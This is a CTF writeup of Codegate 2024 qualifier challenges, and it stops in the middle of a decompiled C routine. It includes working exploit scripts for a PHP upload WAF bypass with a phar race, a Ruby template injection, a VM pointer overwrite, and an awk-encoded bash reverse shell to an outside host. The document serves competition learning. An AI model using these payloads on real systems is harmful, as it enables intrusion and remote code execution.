




+++ 
draft = true
date = 2024-06-23T11:31:00+09:00
title = "Codegate 2024 Quals Writeup"
description = ""
slug = "codegate-2024-quals-writeup"
authors = []
tags = ["CTF", "web", "misc", "rev", "English"]
categories = []
externalLink = ""
series = []
+++

## Intro

We ([원석이만믿고간다](https://ctftime.org/team/306340)) successfully advanced to Codegate 2024 Finals!



Here's the writeup for [Cha's Wall](), [Chatting Service](), [master_of_calculator]( ), [game$ay]( ), [Everlasting_Message]( ) and [trends_notification]( ). 


## Cha's Wall (web)

Cha's Wall service has 2 docker container. **Backend** accepts a file, and if session is admin, it triggers LFI, and finally removes the file. **WAF** is written in Golang and acts as a firewall to proctect from malicious file upload (`.php*`, <?php filtering). 

After some auditing, I concluded that there's no way to pass the if condition $_SESSION['admin'] == 1 to get LFI. Then I focused on finding way to bypass WAF filter to upload `.php` file, and trigger the PHP file before it deletes.

With some googling and reading [MDN docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Disposition#syntax), in the syntax of Content-Disposition header of multipart response body, I found that there is `filename*` parameter that has priority over `filename` parameter. If golang and PHP treats `filename*` differently, maybe we can bypass the WAF to upload `.php` filename. It turns out that golang comply with specification, but PHP **do not and ignore `filename*` parameter**!  Thus we can input valid name in `filename*` parameter and `test.php` in `filename` to pass WAF.

To access PHP file before it deletes, we needed a way to extend race window. PHP version of backend was 7.4.30, which I thought was too specific and old. Actually there was [CVE-2020-7068](https://bugs.php.net/bug.php?id=81726) which enabled `file_exists` function hang when `phar` protocol is used and the file is quine gzip file. If we construct our file as quine gzip file and append PHP code, the uploaded file will **not be deleted** as PHP code will **hang** at `file_exists` function. 

Lastly, <?php filter can be bypassed with <?PHP (credit @c0ld574rf15h).


```python
import requests
import re

URL = 'http://3.39.6.7:8000'

r = requests.get(URL)
print(r.text, r.cookies)

path = re.findall(r'Here is your current directory : /var/www/html/uploads/([^<]*)', r.text)[0]
phpsessid = r.cookies['PHPSESSID']

print('path:', path)
print('phpsessid:', phpsessid)

import socket 

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('3.39.6.7', 8000))

with open('./quine.gz', 'rb') as f:
    text = f.read()
    
text += '<?PHP echo "\n"; system("/readflag"); ?>'.encode()

body = b''
body += b'------WebKitFormBoundaryEFGH\r\n'
body += b'Content-Disposition: form-data; name="file"; filename*=UTF-8\'\'hehe; filename="quine.php"\r\n'
body += b'Content-Type: application/octet-stream\r\n'
body += b'\r\n'
body += text
body += b'\r\n------WebKitFormBoundaryEFGH--\r\n'

payload = b'POST /?path=' + ('phar:///var/www/html/uploads/'+path + '/quine.php').encode() + b' HTTP/1.1\r\n'
payload += b'Host: localhost:8000\r\n'
payload += b'Content-Length: ' + str(len(body)).encode() + b'\r\n'
payload += b'Connection: keep-alive\r\n'
payload += b'Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryEFGH\r\n'
payload += b'Cookie: PHPSESSID=' + phpsessid.encode() + b'\r\n'
payload += b'\r\n'
payload += body
s.send(payload)

r = requests.get(URL + '/uploads/' + path + '/quine.php')
print(r.text)

s.close()
```



## Chatting Service (web)

Chatting service contained many containers, and among them internal container had **arbitrary command execution** vulnerability with some filtering. To bypass, I used **awk** to convert hexadecimals to characters, and executed the decoded shell script.


```python
import requests
from textwrap import wrap

INTERNAL_URL = 'http://13.124.148.178:5000'

payload = 'bash -c "bash -i >& /dev/tcp/[REDACTED]/31337 0>&1"'

payload = [str(v) for v in payload.encode()]

command = 'echo '
command += ' '.join(payload)
command += ' |  awk \'{printf("'
command += '%c'*len(payload)
command += '",'
command += ','.join(['$'+str(i+1) for i in range(len(payload))])
command += ')}\''
command += ' > test && sh test'

print(command)

r = requests.post(INTERNAL_URL + '/login', data={
    'username': 'ohk990102_2',
    'session': '[REDACTED]',
    'command': f'admin://{command}'
}, allow_redirects=False)

print(r.text)
```


## master_of_calculator (web)

Master of Calculator had a trivial template injection vulnerability (as the name implies). However, I had few experience with ruby, and the filter applied seemed very solid. After few tries with @c0ld574rf15h, we found that we can use send to execute function from string 

send("system", "ls") => system("ls") 

To generate arbitrary string, we used two method. First we used regex to make backward string, then cast to string and slice some garbage chars, and reverse it. Second method was to case hexadecimal string to chars. 

```ruby
s = 1617720160.to_s 16
s = s.gsub /../ do |x| x.hex.chr end
```




```python
import requests

URL = 'http://3.34.253.4:3000'

r = requests.post(URL + '/calculate_fee', data={
    'authenticity_token': '[REDACTED]',
    'user_leverage': '1',
    'user_entry_price': 'a=1',
    'user_exit_price': 'if 1 then a = /lave/.to_s.slice 7..10 \n a = a.reverse \n s = 13492811068172817212777010855451505535187040867286799680844063390612206311814711502510653811157373314144.to_s 16 \n s = s.gsub /../ do |x| x.hex.chr end \n c = send a, s \n 1 else 3 end',
    'user_quantity': 'if 1 then pnl = c \n 1 else 1 end',
})

print(r.text)

print(r.text)
```


## game$ay (revpwn)

game$ay was a simple programming language and VM that can execute multiple binary (up to 5). At first, the sample code at main.py was in the form of AST, so I made code to lift to higher language (with the help of Copilot).


```python
from model import *
from main import codes


def print_code(code: Node, indent):
    if isinstance(code, Statements):
        for c in code.statements:
            print('    ' * indent, end='')
            print_code(c, indent)
            print()
    elif isinstance(code, ExprAsStatement):
        print_code(code.expression, indent)
    elif isinstance(code, VarDeclaration):
        print(f'var {code.name.value}', end='')
        if code.type:
            print(f': {code.type.name}', end='')
        if code.value:
            print(f' = ', end='')
            print_code(code.value, indent)
    elif isinstance(code, Assignment):
        print_code(code.location, indent)
        print(f' = ', end='')
        print_code(code.value, indent)
    elif isinstance(code, PrintStatement):
        print(f'print(', end='')
        print_code(code.value, indent)
        print(')', end='')
    elif isinstance(code, ExprAsStatement):
        print(f'{code.expression}', end='')
    elif isinstance(code, BreakStatement):
        print('break', end='')
    elif isinstance(code, ContinueStatement):
        print('continue', end='')
    elif isinstance(code, LastStatement):
        print(f'last {code.value}', end='')
    elif isinstance(code, Parameter):
        print(f'{code.name}:{code.type}', end='')
    elif isinstance(code, FunctionDeclaration):
        print(f'def {code.name.value}({", ".join([p.name.value + ": " + p.type.name for p in code.arguments])}): ')
        print_code(code.body, indent + 1)
    elif isinstance(code, IfStatement):
        print(f'if ', end='')
        print_code(code.test, indent)
        print(':')
        print_code(code.consequence, indent + 1)
        for elif_code in code.elif_block:
            print('    ' * indent, end='')
            print(f'elif ', end='')
            print_code(elif_code[0], indent)
            print(':')
            print_code(elif_code[1], indent + 1)
        if code.alternative:
            print('    ' * indent, end='')
            print('else: ')
            print_code(code.alternative, indent + 1)
    elif isinstance(code, WhileStatement):
        print(f'while ', end='')
        print_code(code.test, indent)
        print(':')
        print_code(code.body, indent + 1)
    elif isinstance(code, ReturnStatement):
        print(f'return ', end='')
        print_code(code.value, indent)
    elif isinstance(code, Sub):
        print_code(code.left, indent)
        print(f' - ', end='')
        print_code(code.right, indent)
    elif isinstance(code, Add):
        print_code(code.left, indent)
        print(f' + ', end='')
        print_code(code.right, indent)
    elif isinstance(code, Mul):
        print_code(code.left, indent)
        print(f' * ', end='')
        print_code(code.right, indent)
    elif isinstance(code, Div):
        print_code(code.left, indent)
        print(f' / ', end='')
        print_code(code.right, indent)
    elif isinstance(code, Mod):
        print_code(code.left, indent)
        print(f' % ', end='')
        print_code(code.right, indent)
    elif isinstance(code, And):
        print_code(code.left, indent)
        print(f' & ', end='')
        print_code(code.right, indent)
    elif isinstance(code, Or):
        print_code(code.left, indent)
        print(f' | ', end='')
        print_code(code.right, indent)
    elif isinstance(code, Not):
        print(f'not ', end='')
        raise NotImplementedError()
    elif isinstance(code, Eq):
        print_code(code.left, indent)
        print(f' == ', end='')
        print_code(code.right, indent)
    elif isinstance(code, FunctionCall):
        print(f'{code.name.value}(', end='')
        for i, arg in enumerate(code.arguments):
            print_code(arg, indent)
            if i < len(code.arguments) - 1:
                print(', ', end='')
        print(')', end='')
    elif isinstance(code, Name):
        print(f'{code.value}', end='')
    elif isinstance(code, Integer):
        print(f'{code.value}', end='')
    elif isinstance(code, Indexer):
        print_code(code.value, indent)
        print('[', end='')
        if code.start:
            print_code(code.start, indent)
        if code.end or code.step:
            print(':', end='')
            if code.end:
                print_code(code.end, indent)
            if code.step:
                print(':', end='')
                print_code(code.step, indent)
        print(']', end='')
    elif isinstance(code, Gt):
        print_code(code.left, indent)
        print(f' > ', end='')
        print_code(code.right, indent)
    elif isinstance(code, Lt):
        print_code(code.left, indent)
        print(f' < ', end='')
        print_code(code.right, indent)
    elif isinstance(code, Array):
        print('[', end='')
        for i, item in enumerate(code.elements):
            print_code(item, indent)
            if i < len(code.elements) - 1:
                print(', ', end='')
        print(']', end='')
    elif isinstance(code, Str):
        print(f'{code.value}', end='')
    elif isinstance(code, Group):
        print('(', end='')
        print_code(code.value, indent)
        print(')', end='')
    elif isinstance(code, Bytes):
        print(f'{code.value}', end='')
    elif isinstance(code, Float):
        print(f'{code.value}', end='')
    elif isinstance(code, Boolean):
        print(f'{code.value}', end='')
    elif isinstance(code, Null):
        print(f'null', end='')
    elif isinstance(code, LogOr):
        print_code(code.left, indent)
        print(f' or ', end='')
        print_code(code.right, indent)
    elif isinstance(code, LogAnd):
        print_code(code.left, indent)
        print(f' and ', end='')
        print_code(code.right, indent)
    else:
        raise ValueError(f'Unknown code type: {code}')
    
if __name__ == '__main__':
    for code in codes:
        print_code(code, 0)
```



```python
def shuffleDeck(deck: list): 
    var i: int = len(deck) - 1
    var temp: list = deck[i]
    var j: int = 0
    while i > 0:
        j = rand(i)
        temp = deck[i]
        deck[i] = deck[j]
        deck[j] = temp
        i = i - 1


def initializeDeck(): 
    var suits: list = [0, 1, 2, 3]
    var ranks: list = ['2', '3', '4', '5', '6', '7', '8', '9', '10', 'J', 'Q', 'K', 'A']
    var deck: list = []
    var suitIndex: int = 0
    var rankIndex: int = 0
    while suitIndex < 4:
        rankIndex = 0
        while rankIndex < 13:
            append(deck, [ranks[rankIndex], suits[suitIndex]])
            rankIndex = rankIndex + 1

        suitIndex = suitIndex + 1

    shuffleDeck(deck)
    return Name(value='deck')


def dealCards(deck: list): 
    var hands: list = []
    var index: int = 0
    var count: int = 0
    var playerHand: list = []
    while count < 2:
        playerHand = []
        var cardCount: int = 0
        while cardCount < 2:
            append(playerHand, deck[index])
            index = index + 1
            cardCount = cardCount + 1

        append(hands, playerHand)
        count = count + 1

    return Name(value='hands')


def replaceCards(playerHand: list, deck: list, cardsToReplace: list): 
    var replacementIndex: int = len(deck) - 1
    var i: int = 0
    while i < len(cardsToReplace):
        if cardsToReplace[i]:
            playerHand[i] = deck[replacementIndex]
            replacementIndex = replacementIndex - 1

        i = i + 1


def scoreHand(hand: list): 
    var score: int = 0
    var i: int = 0
    var temp: list = []
    var cardValue: str = ''
    while i < len(hand):
        temp = hand[i]
        cardValue = temp[0]
        if cardValue == 'A':
            if (score + 11) > 21:
                score = score + 1
            else: 
                score = score + 11

        elif cardValue == 'K' or cardValue == 'Q' or cardValue == 'J':
            score = score + 10
        else: 
            score = score + int(cardValue)

        i = i + 1

    return Name(value='score')


def determineWinner(playerHand: list, dealerHand: list): 
    var playerScore: int = scoreHand(playerHand)
    var dealerScore: int = scoreHand(dealerHand)
    if playerScore > dealerScore:
        return Integer(value='1')

    elif dealerScore > playerScore:
        return Integer(value='2')

    else: 
        return Integer(value='0')


def Draw_result(): 
    print('\nDraw\n')

def Player_result(): 
    print('\nPlayer Win\n')

def Dealer_result(): 
    print('\nDealer Win\n')

def get_user_input(): 
    var replace_input: list = []
    var i: int = 0
    while i < 2:
        var choice: bytes = input('Swap Card [' + str(i) + '] [y/n]:')
        if choice == b'y':
            append(replace_input, 1)
        else: 
            append(replace_input, 0)

        i = i + 1

    return Name(value='replace_input')


def ShowCard(card: list): 
    var i: int = 0
    var c: list
    var level: str
    var suits: list = ['Hearts', 'Diamonds', 'Clubs', 'Spades']
    while i < len(card):
        c = card[i]
        print('\t' + '[' + str(i) + '] ' + c[0] + ' of ' + suits[c[1]] + '\n')
        i = i + 1


def main(): 
    while 1:
        var func_list: list = [Draw_result, Player_result, Dealer_result]
        var beh: list = []
        var beh_func: pointer
        pwrite(0, func_list)
        var deck: list = initializeDeck()
        var hands: list = dealCards(deck)
        var playerHand: list = hands[0]
        var dealerHand: list = hands[1]
        print('[Dealer]\n')
        ShowCard(dealerHand)
        print('\n[Player]\n')
        ShowCard(playerHand)
        print(('\n'))
        var cardsToReplace: list = get_user_input()
        replaceCards(playerHand, deck, cardsToReplace)
        print('\n[Dealer]\n')
        ShowCard(dealerHand)
        print('\n[Player - Card changed]\n')
        ShowCard(playerHand)
        var winner: int = determineWinner(playerHand, dealerHand)
        beh = pread(0)
        beh_func = beh[winner]
        beh_func()
        sleep(3.0)
        pwrite(0, func_list)


main()
```


VM had `flag` function that gives you flag if `machine_id` is 0, but the machine_id 0 is allocated by the first program, so there's no way to directly execute `flag` from our custom program. 

In the first program, the handler function list is inserted into index 0 of shared memory (`self.P` of `Machines` in `interp.py`) by `pwrite` function at the start of game, and loads and execute appropriate handler function after game. 

```python
# def main(): ...
var func_list: list = [Draw_result, Player_result, Dealer_result]
var beh: list = []
var beh_func: pointer
pwrite(0, func_list)
# ...
beh = pread(0)
beh_func = beh[winner]
beh_func()
# ...
```

The shared memory P can be access from other program, but is restricted when trying to access index 0 from other program.

```python
elif node.name.value == "pwrite":
    n = args[0].value
    if n < 0 or n >= self.machine_count:
        return WValue('bool', False)
    
    if node.arguments[0].value == str(0) and machine_id != 0:
        return WValue('bool', False)

    self.wP(n, args[1].value)

    return WValue('bool', True)
```

However, the check can be bypassed because it only checks if the node's first argument value is "0", and **doesn't check the actual evaluated value**. We can bypass `0` using `(1-1)` and insert arbitrary function to handler list of first program. We inserted function that prints flag, and ended the game to execute our injected function.


* code.txt
```rust
func test() None{
    print(flag());
}

sleep(1);
var func_array = pread((1-1));
var new_func_array = [test, test, test];
pwrite((1-1), new_func_array);
```

* solve.py
```python
from pwn import *
import base64
r = remote('43.201.14.210', 20001)

r.sendlineafter(b']:', b'add')

with open('./code.txt', 'rb') as f:
    payload = base64.b64encode(f.read())

r.sendlineafter(b'):', payload)

r.interactive()
```


## Everlasting_Message (rev)

Everlasting_Message was a kind of message encoder, where every 10 byte block is encoded. Each block is splited into 2.5 byte part, and those block is passed into each specified extend functions (2.5 byte -> 5 byte). Then noise (random 2 bit filp) is added to the extended block, forming 20 byte of block. 

As the rand function is **not seeded**, random values are deterministic in every block. However we should consider that order of encoding of each part in block can be different (because of message handling). Thus, we tried every combination of 8 random value to remove noise, apply reverse of extend functions and check if solution exist, and then use the correct value to recover original part of block. 


* generate_reverse_table.c
```c
#include "defs.h"
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>

__int64 type1_handler_2(unsigned __int64 a1)
{
  __int64 v1; // rax
  unsigned __int64 v2; // rcx
  __int64 v3; // rax
  unsigned __int64 v4; // rcx
  unsigned __int64 v5; // rdx
  __int64 v6; // rax
  unsigned __int64 v7; // rcx
  unsigned __int64 v8; // rcx
  __int64 v9; // rax
  unsigned __int64 v10; // rdx
  __int64 v11; // rax
  unsigned __int64 v12; // rcx
  __int64 v13; // rax
  __int64 v14; // rcx

  v1 = (8 * ((unsigned __int8)((a1 >> 18) ^ (a1 >> 15) ^ (a1 >> 14) ^ (a1 >> 13) ^ (a1 >> 12) ^ BYTE1(a1) ^ (a1 >> 7) ^ (a1 >> 6) ^ (a1 >> 5) ^ (a1 >> 3) ^ (a1 >> 1)) ^ (unsigned __int8)(a1 >> 19))) & 8;
  v2 = (16 * ((unsigned __int8)((a1 >> 18) ^ (a1 >> 13) ^ (a1 >> 10) ^ BYTE1(a1) ^ (a1 >> 6) ^ (a1 >> 5) ^ a1 ^ (a1 >> 4)) ^ (unsigned __int8)(a1 >> 19))) & 0x10 | v1 | (4 * ((unsigned __int8)((a1 >> 10) ^ BYTE1(a1) ^ (a1 >> 7) ^ (a1 >> 4) ^ (a1 >> 3) ^ (a1 >> 1)) ^ (unsigned __int8)(a1 >> 14))) & 4 | (2 * ((unsigned __int8)(BYTE2(a1) ^ (a1 >> 15) ^ (a1 >> 14) ^ (a1 >> 12) ^ (a1 >> 11) ^ (a1 >> 10) ^ BYTE1(a1) ^ (a1 >> 7) ^ (a1 >> 5) ^ (a1 >> 4) ^ a1 ^ (a1 >> 2)) ^ (unsigned __int8)(a1 >> 17))) & 2 | (unsigned __int64)(((unsigned __int8)((a1 >> 18) ^ (a1 >> 17) ^ BYTE2(a1) ^ (a1 >> 15) ^ (a1 >> 13) ^ (a1 >> 12) ^ (a1 >> 11) ^ BYTE1(a1) ^ (a1 >> 7) ^ (a1 >> 6) ^ (a1 >> 4) ^ (a1 >> 3) ^ (a1 >> 2)) ^ (unsigned __int8)(a1 >> 19)) & 1);
  v3 = (((unsigned __int16)((a1 >> 15) ^ (a1 >> 14) ^ (a1 >> 13) ^ (a1 >> 12) ^ (a1 >> 10) ^ ((unsigned int)a1 >> 8) ^ (a1 >> 5) ^ (a1 >> 2) ^ (a1 >> 1)) ^ (unsigned __int16)(a1 >> 17)) << 8) & 0x100;
  v4 = v3 | (unsigned __int8)(((unsigned __int8)((a1 >> 18) ^ (a1 >> 17) ^ BYTE2(a1) ^ (a1 >> 15) ^ (a1 >> 12) ^ (a1 >> 10) ^ (a1 >> 9) ^ BYTE1(a1) ^ (a1 >> 5) ^ (a1 >> 4) ^ (a1 >> 2) ^ a1 ^ (a1 >> 1)) ^ (unsigned __int8)(a1 >> 19)) << 7) | (((unsigned __int8)((a1 >> 17) ^ (a1 >> 15) ^ (a1 >> 14) ^ (a1 >> 11) ^ (a1 >> 9) ^ BYTE1(a1) ^ (a1 >> 7) ^ (a1 >> 6) ^ (a1 >> 4) ^ (a1 >> 3) ^ (a1 >> 1)) ^ (unsigned __int8)(a1 >> 18)) << 6) & 0x40 | (32 * ((unsigned __int8)((a1 >> 17) ^ BYTE2(a1) ^ (a1 >> 13) ^ (a1 >> 12) ^ (a1 >> 11) ^ (a1 >> 10) ^ (a1 >> 9) ^ BYTE1(a1) ^ (a1 >> 6) ^ (a1 >> 3) ^ (a1 >> 2) ^ a1 ^ (a1 >> 1)) ^ (unsigned __int8)(a1 >> 18))) & 0x20 | v2;
  v5 = (((unsigned __int16)(WORD1(a1) ^ (a1 >> 15) ^ (a1 >> 14) ^ (a1 >> 12) ^ (a1 >> 9) ^ ((unsigned int)a1 >> 8) ^ (a1 >> 7) ^ (a1 >> 6) ^ (a1 >> 5) ^ (a1 >> 4) ^ (a1 >> 3) ^ (a1 >> 2) ^ a1 ^ (a1 >> 1)) ^ (unsigned __int16)(a1 >> 19)) << 11) & 0x800 | (((unsigned __int16)((a1 >> 15) ^ (a1 >> 13) ^ (a1 >> 11) ^ ((unsigned int)a1 >> 8) ^ (a1 >> 7) ^ (a1 >> 6) ^ (a1 >> 5) ^ (a1 >> 1)) ^ (unsigned __int16)(a1 >> 17)) << 10) & 0x400 | (((unsigned __int16)((a1 >> 18) ^ (a1 >> 17) ^ (a1 >> 14) ^ (a1 >> 11) ^ (a1 >> 10) ^ (a1 >> 9) ^ ((unsigned int)a1 >> 8) ^ (a1 >> 6) ^ (a1 >> 5) ^ (a1 >> 4) ^ (a1 >> 3) ^ (a1 >> 2) ^ a1 ^ (a1 >> 1)) ^ (unsigned __int16)(a1 >> 19)) << 9) & 0x200 | v4;
  v6 = (unsigned __int16)(((unsigned __int16)((a1 >> 17) ^ WORD1(a1) ^ (a1 >> 14) ^ (a1 >> 12) ^ (a1 >> 10) ^ (a1 >> 9) ^ (a1 >> 6) ^ (a1 >> 5) ^ (a1 >> 3) ^ (a1 >> 2) ^ (a1 >> 1)) ^ (unsigned __int16)(a1 >> 18)) << 15);
  v7 = v6 | (((unsigned __int16)((a1 >> 15) ^ (a1 >> 11) ^ (a1 >> 10) ^ (a1 >> 6) ^ (a1 >> 4) ^ (a1 >> 3) ^ (a1 >> 2) ^ (a1 >> 1)) ^ WORD1(a1)) << 14) & 0x4000 | (((unsigned __int16)((a1 >> 18) ^ WORD1(a1) ^ (a1 >> 15) ^ (a1 >> 14) ^ (a1 >> 13) ^ (a1 >> 12) ^ (a1 >> 11) ^ (a1 >> 10) ^ ((unsigned int)a1 >> 8) ^ (a1 >> 7) ^ (a1 >> 5) ^ (a1 >> 3) ^ (a1 >> 2) ^ (a1 >> 1)) ^ (unsigned __int16)(a1 >> 19)) << 13) & 0x2000 | (((unsigned __int16)((a1 >> 13) ^ (a1 >> 12) ^ (a1 >> 9) ^ ((unsigned int)a1 >> 8) ^ (a1 >> 5) ^ (a1 >> 4) ^ (a1 >> 3) ^ (a1 >> 2)) ^ (unsigned __int16)(a1 >> 17)) << 12) & 0x1000 | v5;
  v8 = (((unsigned int)(a1 >> 15) ^ (unsigned int)(a1 >> 13) ^ (unsigned int)(a1 >> 9) ^ (unsigned int)a1 ^ (unsigned int)(a1 >> 3) ^ (unsigned int)(a1 >> 19)) << 19) & 0x80000 | (((unsigned int)(a1 >> 17) ^ (unsigned int)(a1 >> 14) ^ (unsigned int)(a1 >> 11) ^ (unsigned int)(a1 >> 10) ^ (unsigned int)(a1 >> 8) ^ (unsigned int)(a1 >> 7) ^ (unsigned int)(a1 >> 6) ^ (unsigned int)a1 ^ (unsigned int)(a1 >> 2) ^ (unsigned int)(a1 >> 19)) << 18) & 0x40000 | (((unsigned int)(a1 >> 14) ^ (unsigned int)(a1 >> 13) ^ (unsigned int)(a1 >> 10) ^ (unsigned int)(a1 >> 9) ^ (unsigned int)(a1 >> 8) ^ (unsigned int)(a1 >> 7) ^ (unsigned int)(a1 >> 6) ^ (unsigned int)(a1 >> 4) ^ (unsigned int)(a1 >> 3) ^ (unsigned int)(a1 >> 2) ^ (unsigned int)(a1 >> 1) ^ (unsigned int)(a1 >> 16)) << 17) & 0x20000 | (((unsigned int)(a1 >> 13) ^ (unsigned int)(a1 >> 10) ^ (unsigned int)(a1 >> 8) ^ (unsigned int)(a1 >> 7) ^ (unsigned int)(a1 >> 5) ^ (unsigned int)a1 ^ (unsigned int)(a1 >> 3) ^ (unsigned int)(a1 >> 15)) << 16) & 0x10000 | v7;
  v9 = (((unsigned int)(a1 >> 17) ^ (unsigned int)(a1 >> 16) ^ (unsigned int)(a1 >> 14) ^ (unsigned int)(a1 >> 10) ^ (unsigned int)(a1 >> 8) ^ (unsigned int)(a1 >> 7) ^ (unsigned int)(a1 >> 5) ^ (unsigned int)(a1 >> 4) ^ (unsigned int)a1 ^ (unsigned int)(a1 >> 3) ^ (unsigned int)(a1 >> 18)) << 23) & 0x800000;
  v10 = (((unsigned int)(a1 >> 9) ^ (unsigned int)(a1 >> 6) ^ (unsigned int)(a1 >> 5) ^ (unsigned int)(a1 >> 4) ^ (unsigned int)(a1 >> 14)) << 24) & 0x1000000 | v9 | (((unsigned int)(a1 >> 18) ^ (unsigned int)(a1 >> 17) ^ (unsigned int)(a1 >> 16) ^ (unsigned int)(a1 >> 14) ^ (unsigned int)(a1 >> 13) ^ (unsigned int)(a1 >> 12) ^ (unsigned int)(a1 >> 11) ^ (unsigned int)(a1 >> 10) ^ (unsigned int)(a1 >> 8) ^ (unsigned int)(a1 >> 5) ^ (unsigned int)(a1 >> 2) ^ (unsigned int)(a1 >> 1) ^ (unsigned int)(a1 >> 19)) << 22) & 0x400000 | (((unsigned int)(a1 >> 16) ^ (unsigned int)(a1 >> 14) ^ (unsigned int)(a1 >> 11) ^ (unsigned int)(a1 >> 9) ^ (unsigned int)(a1 >> 6) ^ (unsigned int)(a1 >> 5) ^ (unsigned int)(a1 >> 4) ^ (unsigned int)a1 ^ (unsigned int)(a1 >> 1) ^ (unsigned int)(a1 >> 19)) << 21) & 0x200000 | (((unsigned int)(a1 >> 16) ^ (unsigned int)(a1 >> 15) ^ (unsigned int)(a1 >> 14) ^ (unsigned int)(a1 >> 13) ^ (unsigned int)(a1 >> 11) ^ (unsigned int)(a1 >> 4) ^ (unsigned int)(a1 >> 3) ^ (unsigned int)(a1 >> 2) ^ (unsigned int)a1 ^ (unsigned int)(a1 >> 1) ^ (unsigned int)(a1 >> 18)) << 20) & 0x100000 | v8;
  v11 = (((unsigned int)(a1 >> 9) ^ (unsigned int)(a1 >> 6) ^ (unsigned int)(a1 >> 5) ^ (unsigned int)(a1 >> 4) ^ (unsigned int)(a1 >> 3) ^ (unsigned int)(a1 >> 2) ^ (unsigned int)(a1 >> 1) ^ (unsigned int)(a1 >> 10)) << 29) & 0x20000000;
  v12 = v11 | (((unsigned int)(a1 >> 17) ^ (unsigned int)(a1 >> 12) ^ (unsigned int)(a1 >> 11) ^ (unsigned int)(a1 >> 10) ^ (unsigned int)(a1 >> 7) ^ (unsigned int)a1 ^ (unsigned int)(a1 >> 4) ^ (unsigned int)(a1 >> 19)) << 28) & 0x10000000 | (((unsigned int)(a1 >> 17) ^ (unsigned int)(a1 >> 16) ^ (unsigned int)(a1 >> 13) ^ (unsigned int)(a1 >> 9) ^ (unsigned int)(a1 >> 3) ^ (unsigned int)(a1 >> 2) ^ (unsigned int)a1 ^ (unsigned int)(a1 >> 1) ^ (unsigned int)(a1 >> 18)) << 27) & 0x8000000 | (((unsigned int)(a1 >> 14) ^ (unsigned int)(a1 >> 13) ^ (unsigned int)(a1 >> 10) ^ (unsigned int)(a1 >> 9) ^ (unsigned int)(a1 >> 8) ^ (unsigned int)(a1 >> 5) ^ (unsigned int)a1 ^ (unsigned int)(a1 >> 1) ^ (unsigned int)(a1 >> 16)) << 26) & 0x4000000 | (((unsigned int)(a1 >> 17) ^ (unsigned int)(a1 >> 12) ^ (unsigned int)(a1 >> 11) ^ (unsigned int)(a1 >> 10) ^ (unsigned int)(a1 >> 9) ^ (unsigned int)(a1 >> 6) ^ (unsigned int)(a1 >> 5) ^ (unsigned int)(a1 >> 3) ^ (unsigned int)(a1 >> 1) ^ (unsigned int)(a1 >> 19)) << 25) & 0x2000000 | v10;
  v13 = (((a1 >> 16) ^ (a1 >> 15) ^ (a1 >> 13) ^ (a1 >> 11) ^ (a1 >> 10) ^ (a1 >> 9) ^ (a1 >> 7) ^ (a1 >> 4) ^ (a1 >> 2) ^ (a1 >> 18)) << 35) & 0x800000000LL;
